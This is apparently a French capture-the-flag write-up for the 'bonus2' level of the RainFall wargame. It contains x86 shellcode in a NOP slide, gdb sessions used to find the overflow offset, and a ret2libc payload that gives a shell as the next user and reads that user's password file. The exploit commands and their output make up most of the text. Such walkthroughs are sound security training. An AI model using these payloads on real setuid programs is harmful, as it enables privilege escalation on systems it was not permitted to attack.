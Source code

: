 # Bonus 2

Nous realisons un autre NOP Slide apres apres trouver l'offset et une adresse proche du segfault pour le nop slide que nous mettons sur l'offset
```
bonus2@RainFall:~$ env -i LANG="nl" SHELLCODE=`python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'` ./bonus2 `python -c 'print "A" * 40'` `python -c 'print "A" * 23 + "\xbc\xff\xff\xbf"'`
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
$ id
\uid=2012(bonus2) gid=2012(bonus2) euid=2013(bonus3) egid=100(users) groups=2013(bonus3),100(users),2012(bonus2)
```

Pendant qu'on essayait de trouver notre offset, on remarquer que le programme segfaultait à des endroits differents en fonction de la variable d'env `LANG`
```
echo "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz" > /tmp/garbage
$ gdb ./bonus2
(gdb) r `cat /tmp/garbage` `cat /tmp/garbage`
Hello AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH

Program received signal SIGSEGV, Segmentation fault.
0x08004848 in ?? ()
(gdb) set env LANG=fi
(gdb) r `cat /tmp/garbage` `cat /tmp/garbage`
Hyvää päivää AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH

Program received signal SIGSEGV, Segmentation fault.
0x46464545 in ?? ()

```
À partir de la, on peut déterminer l'offset et l'utiliser pour faire un NOP Slide ou un ret2libc.</br>
```
$ node
> (0x45-"A".charCodeAt(0))*4
16
```
Notre offset est donc de 16 (+ 2 pour pouvoir décaller l'adresse du segfault à 0x45454545).

On pourrait refaire un NOP Slide et mettre un shellcode dans l'env mais cette fois ci, on va faire un `ret2libc`.</br>
En premier lieu, on va chercher les adresses des fonctions `system` et `exit` dans la libc.</br>
Ensuite, on va chercher l'adresse de `/bin/sh` dans la libc, on pourrait aussi la prendre dans les varaible d'env.</br>
```
(gdb) b main
Breakpoint 1 at 0x804852f
(gdb) r
Starting program: /home/user/bonus2/bonus2

Breakpoint 1, 0x0804852f in main ()
(gdb) info proc map
process 4608
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
...
	 0x8048000  0x8049000     0x1000        0x0 /home/user/bonus2/bonus2
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
...
(gdb) find 0xb7e2c000,0xb7fcf000,"/bin/sh"
0xb7f8cc58
1 pattern found.
(gdb) info function system
All functions matching regular expression "system":
0xb7e6b060  system
(gdb) info function exit
All functions matching regular expression "exit":
0xb7e5ebe0  exit
```
Maintenant qu'on a toutes les adresses, il ne nous reste plus qu'a faire notre exploit.

Padding de "A" + adresse de `system` + adresse de `exit` + adresse de `/bin/sh`
```
$ LANG=fi ./bonus2 `python -c 'print "A"*100'` `python -c 'print "A"*18+"\x60\xb0\xe6\xb7"+"\xe0\xeb\xe5\xb7"+"\x58\xcc\xf8\xb7"'`
$ whoami
bonus3
$ cat ~bonus3/.pass
```
